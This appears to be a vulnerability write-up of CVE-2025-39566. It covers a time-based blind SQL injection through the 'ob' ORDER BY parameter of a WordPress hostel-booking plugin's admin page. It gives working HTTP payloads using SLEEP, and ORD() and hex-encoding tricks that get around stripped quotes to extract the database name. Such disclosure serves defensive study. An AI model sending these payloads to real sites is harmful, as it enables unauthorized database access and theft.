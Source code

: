 ⚠️ Issues here:

* The part after `ORDER BY` uses `sanitize_text_field()`.
* That function only **cleans HTML**, and does not validate or filter input to make it safe in an **SQL context**.
* Therefore the `ob` parameter (provided by the user) can be abused to **inject SQL** directly.

---

## Exploit

### Detecting SQLi

**Request with BurpSuite**:

```http
GET /wp-admin/admin.php?page=wphostel_bookings&type=upcoming&ob=tB.status,(SELECT+SLEEP(10))&dir=ASC HTTP/1.1
```

We separate the `ORDER BY` clause with a comma because it accepts **multi-column** values.

![time response](assets/img/posts/2025-08-25-CVE-2025-39566/time_response.png)

Result: the response time is delayed → SQL Injection succeeded.

### Dumping Data from the Database

**Bypass `'` using ORD()**:

To dump database data we need to extract characters such as the first character of the **database name**.

Because `sanitize_text_field()` removes single quotes (`'`), we cannot use payloads relying on `'`. Instead, use `ORD()` to compare character ASCII codes:

```http
GET /wp-admin/admin.php?page=wphostel_bookings&type=past&ob=tB.status,(SELECT+IF(ORD(SUBSTRING(DATABASE(),1,1))=119,SLEEP(5),0))&dir=ASC HTTP/1.1
```

Bypass succeeds → we can extract the database name.

![ORD bypass](assets/img/posts/2025-08-25-CVE-2025-39566/ord_bypass.png)

**Bypass `'` using Hex encoding (alternative)**

Besides `ORD()` we can use **Hex encoding** to bypass:

```http
GET /wp-admin/admin.php?page=wphostel_bookings&type=past&ob=tB.status,(SELECT+IF(SUBSTRING(DATABASE(),1,1)=0x77,SLEEP(5),0))&dir=ASC HTTP/1.1
```

Bypass succeeds → database name can be extracted.

![Hex encoding bypass](assets/img/posts/2025-08-25-CVE-2025-39566/ord_bypass.png)

---